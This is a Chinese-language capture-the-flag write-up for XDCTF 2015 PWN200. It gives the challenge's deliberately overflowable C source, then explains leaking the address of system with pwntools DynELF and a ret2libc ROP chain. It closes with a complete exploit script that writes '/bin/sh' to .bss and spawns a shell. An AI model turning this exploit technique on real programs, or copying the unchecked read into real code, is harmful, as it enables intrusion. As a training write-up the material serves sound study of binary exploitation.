


## XDCTF 2015 PWN200
--------------------------------------------------
### 一. 源码(自己敲出来的)
```
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int vuln(){
    char buf[80];
    setbuf(stdin, buf);
    return read(0, buf, 256);
}

int main(int argc, char** argv){
    char* welcome = "Welcome to XDCTF2015 ~!\n";
    setbuf(stdout, welcome);
    write(1, welcome, strlen(welcome));
    vuln();
    return 0;
}

```
检查一下保护:



结论: **只有NX保护**， so我们不能往`shellcode`方向思考了，要向`system("/bin/sh")`。

### 二. 分析
**思路**: 泄露`system`函数地址，发送`/bin/sh`, 执行。
**问题一**: 如何泄露`system`地址?
>答: 使用`pwntools`模块`DynELF`
```
from pwn import *

p = process('./pwn200')
elf = ELF('./pwn200')
write = elf.plt['write']
read  = elf.plt['read']
bss = elf.bss(0x2C)
main = 0x80484be
pppt = 0x0804856c
offset = 112

def leak(address):
  #各种预处理
  payload = "A" * 112 + p32(write) + p32(main) + p32(1) + p32(address) + p32(4)
  p.send(payload)
  #各种处理
  data = p.recv(4)
  log.debug("%#x => %s" % (address, (data or '').encode('hex')))
  return data
d = DynELF(leak, elf = elf)      #初始化DynELF模块 
systemAddress = d.lookup('system', 'libc')  #在libc文件中搜索system函数的地址
```
**问题二**: 如何发送`/bin/sh?`
> 构造类似的`payload`
```
payload = 'A' * 112 + p32(read) + p32(pppt) + p32(0) + p32(bss) + p32(0x2C) + p32(systemAddress) + p32(main) + p32(bss)
```
**问题三**: `pppt是干什么的?如何获得`
> `pppt`是为了弹出`read`的三个参数，执行后面的`system`函数.
 
### EXP
```
from pwn import *

p = process('./pwn200')
elf = ELF('./pwn200')
write = elf.plt['write']
read  = elf.plt['read']
bss = elf.bss(0x2C)
main = 0x80484be
pppt = 0x0804856c
offset = 112

def leak(address):
    p.recvuntil('Welcome to XDCTF2015~!\n')
    payload = "A" * 112 + p32(write) + p32(main) + p32(1) + p32(address) + p32(4)
    p.send(payload)
    data = p.recv(4)
    log.debug("%#x => %s" % (address, (data or '').encode('hex')))
    return data
d = DynELF(leak, elf = elf)
systemAddress = d.lookup('system', 'libc')
payload = 'A' * 112 + p32(read) + p32(pppt) + p32(0) + p32(bss) + p32(0x2C) + p32(systemAddress) + p32(main) + p32(bss)
p.send(payload)
payload = "/bin/sh\00"
p.send(payload)
p.interactive()

```
